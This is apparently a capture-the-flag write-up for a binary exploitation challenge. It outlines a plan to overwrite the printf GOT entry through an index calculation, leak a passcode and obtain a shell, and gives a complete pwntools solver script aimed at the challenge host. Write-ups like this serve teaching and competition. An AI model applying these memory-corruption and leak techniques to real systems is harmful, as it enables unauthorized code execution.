 if we provide the right `passcode` we get a shell

#### Plan :

1. we can jump directly to the `execve` line , but rsi and rdi need to be nulled out and it wasnt the case
2. we leak the passcode with `printf(&passcode)` then call `hard(passcode)` to WIN

for that , we need to write the `printf GOT entry` in `Username` to then call it with `&passcode ` >> PASSCODE leaked and gg

#### solver :

```python

from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x000000000040162f
                        c
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./chall")
#libc=ELF("./libc.so.6")
nc="nc 3d5055083024005fa38ef5ab28953c07.chal.ctf.ae 443"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host, 443, ssl=True, sni=host)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
got=0x403f70
conv=0x404010
username=0x404080
passcode=0x404060
p.sendline(p64(passcode)+b"/bin/sh\x00")

sleep(0.5)
#debug()
p.sendline(str((got - conv + 8)//8))
p.recvuntil("[*] Guess>")
p.sendline(str(passcode))
p.recvuntil("> ")
leak=u64(p.recv(8))
print(leak)
sleep(0.5)
p.sendline("2")
p.recvuntil("[*] Guess>")
p.sendline(str(leak))
p.interactive()

```
